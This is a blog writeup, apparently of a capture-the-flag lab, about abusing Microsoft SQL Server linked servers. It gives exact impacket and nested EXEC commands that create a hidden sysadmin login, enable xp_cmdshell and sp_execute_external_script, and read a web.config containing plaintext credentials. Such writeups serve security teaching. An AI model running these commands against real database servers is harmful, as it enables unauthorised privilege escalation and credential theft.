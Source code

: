 ```yaml
---
title: Abusing MSSQL Linked Servers [Adding sa user & File Read]
author: r0b0tG4nG
date: 2021-12-16 10:18:00 +0000
categories: [Blogging, Exploiting]
tags: [writeups, mssql, impacket-mssqlclient, python , xp_cmdshell, sp_execute_external_script]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/146367126-2c4334c7-4664-4581-9ab7-bcc2b0d9da0b.png)<br><br>


**> Information Gathering**<br>

Microsoft SQL Server is a <a href="https://en.wikipedia.org/wiki/Relational_database_management_system">relational database management system</a> developed by <a href="https://en.wikipedia.org/wiki/Microsoft">Microsoft</a>. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).<br>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library. More Information can be found at <a href="https://github.com/SecureAuthCorp/impacket">
SecureAuth Corporation</a><br>

In this engagement, we will use <a href="https://github.com/SecureAuthCorp/impacket/blob/impacket_0_9_24/examples/mssqlclient.py">Impacket-mssqlclient.py</a> script. First we will login to the mssql service using the `mssql-client.py`, to do this we will parse the database credentials and ip as agruments to the `mssql-client.py` script. `impacket-mssqlclient external_user:"#p00Public3xt3rnalUs3r#"@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365268-90142593-59e6-4a33-8d10-1f6d3286ea9b.png)<br>

After logging in to the mssql database, we will haev to check if the user has sysadmin privileges on the databases. This can be done by querying the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql?view=sql-server-ver15">syslogins table</a> using the command `SELECT name,sysadmin from syslogins;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365388-6c93e881-bde7-493d-842c-d4423239c15d.png)<br>

The database has two users `sa` & `external_user`. From the output, we can see the current user doesn't have `sysadmin privileges`, which means we can't use <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15">xp_cmdshell</a> to execute OS commands. We can check this by trying to enable `xp_cmdshell`<br>
![image](https://user-images.githubusercontent.com/67085453/146365484-c895eebc-9914-4b07-8b40-5c2e1cd12635.png)<br>

Microsoft SQL servers provides the ability to link external resources such as Oracle databases and other SQL servers. This is common to find in domain environments and can be exploited in case of misconfigurations. To verify if there are any linked servers on the current database, we will have to query the <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysservers-transact-sql?view=sql-server-ver15">sysservers table</a> by executing the command `select srvname,isremote from sysservers;`.<br>
![image](https://user-images.githubusercontent.com/67085453/146365758-f02ba0e1-f680-487e-8edd-3302e1026288.png)<br>

Quering the table displayed two entries: `POO_PUBLIC (current server)` and `POO_CONFIG`. According to the documentation, `isremote column` determines if a server is linked or not. The `value 1` stands for `remote server`, while the value `0 stands for a linked server`. From this, we can conclude that `POO_CONFIG` is a linked server.<br>

From the docs, `EXEC` statement can be used to execute queries on linked servers. The next step is to find out the user in whose context we will be able to query the linked server. To do this, we will type `EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];`<br>
![image](https://user-images.githubusercontent.com/67085453/146365942-3a17d65c-fa93-457b-b35e-8c9486a698e5.png)<br>

The queries on the linked server `POO_CONFIG` are running as `internal_user`. To do greater damage, in this scenario, we will need the permissions of the `sa` user, so its best to check is the `internal_user` is `sa` on the targett or has `sa` privileges assigned to this user. To do this, we will execute the commmand `EXECUTE ('SELECT name,sysadmin from syslogins;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366041-0c7e6ba7-4f7f-4d23-9751-e64b5f691fcc.png)<br>

Bad luck on our side, the user `internal_user` is also not a `sysadmin` on the target. That is not the end remember this target has linked databases so we can try to enumerate the `POO_CONFIG` server to see if it has more links. We can recon on more links using `EXECUTE ('select srvname,isremote from sysservers;') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366129-93d9a1e9-7d5a-4ad1-bdc9-c266f4e62d5e.png)<br>



**> Adding SA User**<br>

From the image above, we can see that `POO_CONFIG` is in turn linked to `POO_PUBLIC`, making it a circular link. This is good news to the eyes since we can use nested queries to find out what user we're running as. Let's execute this command `EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366345-e90d8172-c3a7-4b0c-850f-1a1553ccae17.png)<br>

A nested `EXEC statement` is used to find the username after crawling back from the `POO_CONFIG link`. The query returned `sa`, which means that the link allows us to execute queries as the `sysadmin user` on our current database `POO_PUBLIC`. The diagram below shows how the links are crawled in order to attain `sa privileges`. We can use these privileges to change the `sa password` on `POO_PUBLIC`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366439-f55a6706-98fe-4852-89c1-ce94c45b4d8e.png)<br>

With this information, we can add a new `sa user` to the `POO_PUBLIC` database using a nested query. We will add a new SQL user named `r0b0t` with the password `P@ssword123` . The `r0b0t` user will be granted `sysadmin level privileges`. To avoid errors, we all single quotes should be escaped with another quote.<br>

We now add the `r0b0t` user and also grant him the `sysadmin privileges`. To achieve this, we will use the following commands. <br> 
`EXECUTE('EXECUTE(''CREATE LOGIN r0b0t WITH PASSWORD = ''''P@ssword123'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG" `<br>
`EXECUTE('EXECUTE(''sp_addsrvrolemember ''''r0b0t'''' , ''''sysadmin'''' '') AT "COMPATIBILITY\POO_PUBLIC"') AT "COMPATIBILITY\POO_CONFIG"`<br>
![image](https://user-images.githubusercontent.com/67085453/146366521-20ad5699-cced-436f-a8ba-643acd48d2b9.png)<br>

The command was executed successfully without any errors. We can login to the `mssql` database using the username `r0b0t` & password `P@ssword123`. To achieve this, we will need `impacket-mssqlclient` script with the argument `impacket-mssqlclient r0b0t:'P@ssword123'@10.13.38.11`.<br>
![image](https://user-images.githubusercontent.com/67085453/146366926-91d93953-d63f-431f-acb4-305e1f275077.png)<br>


**> File Read Using sp_execute_external_script**<br>

After a successful login with the `r0b0t` user credentials, we know this user has `sysadmin-level` privileges thus can enable and execute system commands using the `xp_cmdshell` stored procedure. To enable `xp_cmdshell` in `mssqlcient.py`, we will use the command `enable_xp_cmdshell` and install the new configuration using `RECONFIGURE`.We can test code execution using the command `xp_cmdshell whoami`.<br>
![image](https://user-images.githubusercontent.com/67085453/146375130-72777aea-8a3a-4a93-91ab-7a3bebc1a2e6.png)<br>

The SQL Server service found to be running as a standard service account. The `IIS web.config` file mostly contains credentials. Our main target now is to grab the contents of this file. We can siimply do this using `xp_cmdshell icacls c:\inetpub\wwwroot\web.config`.<br>
![image](https://user-images.githubusercontent.com/67085453/146375013-823bec14-6cc3-4170-a2e4-bd60f15c312e.png)<br>

Looks like we do not have permissions to read that file. What could be the problem? `icacls` is blocked on the target or we just lack permissions. So i tried to read other files on the target using the command `xp_cmdshell icacls c:\windows\system32\drivers\etc\hosts`.<br>
![image](https://user-images.githubusercontent.com/67085453/146374700-0a784fe4-ceb3-47bf-8a74-e75e8bd3fdb7.png)<br>

So `icacls` works perfect all we need is to find a new way to read files on the target through `mssql`. After digging around, i found out that there is an `SQL Server feature` called <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a>. This stored procedure allows us to execute external scripts written in `Ruby` or `Python`. So first we have to enable this procedure to test some python codes. To enable this feature, we will use the command `EXEC sp_configure 'external scripts enabled', 1` and install this configuration with the command `RECONFFIGURE`.<br> 
![image](https://user-images.githubusercontent.com/67085453/146375288-30077f0f-80f1-4d9b-8d1e-d6c58acd17e6.png)<br>

With the feature enabled, We will build our external script using the python sample located at <a href="https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql?view=sql-server-ver15">sp_execute_external_script</a> main page. For test purposes, we will look at executing an `external python script` to print out a text on our screen using the command `EXEC sp_execute_external_script @language = N'Python', @script = N'print( "r0b0t Test Print" );';`<br>
![image](https://user-images.githubusercontent.com/67085453/146374831-be485bc8-96a8-4b84-9363-79f30bb30f22.png)<br>

Our external python script works good the next thing we have to do is to read the `web.config` file from `c:\inetpub\wwwroot\` directory. To do this, we will import python `os module` and execute the command `EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("type C:\inetpub\wwwroot\web.config");';`<br>
![image](https://user-images.githubusercontent.com/67085453/146374932-be5d8c9c-eea8-4bee-b2d6-6513b4175c6a.png)<br>

Hehehee guess what?? we did it. We are able to read files on the target using `external python scripts`. Fruits of the hunt?? we actually found the credentials in the `web.config` file.
```shell
        <authentication mode="Forms">
            <forms name="login" loginUrl="/admin">
                <credentials passwordFormat = "Clear">
                    <user 
                        name="Administrator" 
                        password="EverybodyWantsToWorkAtP.O.O."
                    />
                </credentials>
            </forms>
        </authentication>
        -->

```

